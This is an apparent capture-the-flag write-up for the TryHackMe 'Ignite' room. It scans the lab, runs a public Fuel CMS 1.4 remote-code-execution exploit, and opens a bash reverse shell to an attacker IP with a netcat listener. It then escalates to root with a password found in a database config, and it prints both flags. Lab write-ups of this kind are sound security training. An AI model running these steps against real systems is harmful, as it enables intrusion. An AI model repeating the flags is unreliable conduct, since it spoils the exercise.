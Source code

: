 # [Ignite](https://tryhackme.com/room/ignite)

> A new start-up has a few issues with their web server

## Scanning

Scan the target with nmap

```
nmap -A -T4 10.10.138.185
```

![image](https://user-images.githubusercontent.com/90561566/188138041-0e800d6a-7fc8-41a8-8bb4-e9535589f31d.png)

Hmm, found only 1 open port 80 (http)

## HTTP

Go to the web page

![image](https://user-images.githubusercontent.com/90561566/188138642-85ed4d57-3ec3-4467-bed3-dde8f7355691.png)

It's default page of fuel cms 1.4

## Enumeration

Gobuster to discover hidden directory

```
gobuster dir -u http://10.10.138.185 -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/188139192-d3977108-ff1f-43e1-b05b-5f6b4d0a6b41.png)

I connected to /0/ and /home/ directory and maybe in vain

![image](https://user-images.githubusercontent.com/90561566/188139966-5029d435-ba8f-4ceb-ba6d-a7a5f464cdbb.png)

I had logggd in and see nothing too

## Exploitation

I search exploit for fuelcms

```
searchsploit fuelcms 1.4
```

![image](https://user-images.githubusercontent.com/90561566/188140509-e7f1d285-a42e-4e56-bb53-75ce63f1e2af.png)

copy exploit

```
searchsploit -m 47138.py
vi 47138.py
```

change line 14 to target ip

![image](https://user-images.githubusercontent.com/90561566/188140922-cc1950b3-b5cc-46e5-a836-27ab5cd654f4.png)

```
chmod +x 47138.py
python 47138.py
```

![image](https://user-images.githubusercontent.com/90561566/188256466-ef67f34d-b02c-421e-b8f1-f15a6393e4a9.png)

now we open a reverse shell to control easily

```
vi rev.sh
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

open 2 tab

```
python3 -m http.server 80 # http server to download file
and
nc -vlnp 4444 # netcat listener on port 4444
```

next

![image](https://user-images.githubusercontent.com/90561566/188258559-b452576b-a916-4c41-b363-ba8633f969d4.png)

![image](https://user-images.githubusercontent.com/90561566/188258613-6d26529d-c131-401b-b075-8e214dc59ead.png)

![image](https://user-images.githubusercontent.com/90561566/188258643-545ca4a4-bc4e-48ff-b7dd-5259cef13e47.png)

okay, we got a shell

![image](https://user-images.githubusercontent.com/90561566/188258669-b25aaa28-44ff-4efe-b405-4077b1fa26c4.png)

search flag on /home

![image](https://user-images.githubusercontent.com/90561566/188258710-0b59be70-6923-4025-969f-8b4e9fc3e659.png)

| Flag | User.txt |
| --- | --- |
| Answer | 6470e394cbf6dab6a91682cc8585059b |

## Privilege Escalation

I tried `sudo -l -l` but it didn't work

![image](https://user-images.githubusercontent.com/90561566/188258803-f8a5356b-c65f-4b64-aa0e-cf56bc438f19.png)

during reconnaissance i noticed some instructions related to Database configuration on the webpage

![image](https://user-images.githubusercontent.com/90561566/188258939-44efe6c8-f5e6-4b8f-a8a6-347bc6c00804.png)

```
cat fuel/application/config/database.php
```

![image](https://user-images.githubusercontent.com/90561566/188258995-6329d359-e685-4b0c-9cf1-042a6be1919c.png)

there is it

![image](https://user-images.githubusercontent.com/90561566/188259024-19eed0e6-7dcb-43ba-9703-c8d01e3c6ec6.png)

user: root, pass: mememe

![image](https://user-images.githubusercontent.com/90561566/188259227-9b187eef-6ca7-4700-bf76-f0840007dca6.png)

i got an error, after gg search, here is the solution

```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i
```

![image](https://user-images.githubusercontent.com/90561566/188259287-2f59492d-31f2-440b-96a1-44d7c0665678.png)

here you are

![image](https://user-images.githubusercontent.com/90561566/188259334-cb02362c-d167-471a-848e-8a9cb86ed442.png)

| Flag | root.txt |
| --- | --- |
| Answer | b9bbcb33e11b80be759c4e844862482d |
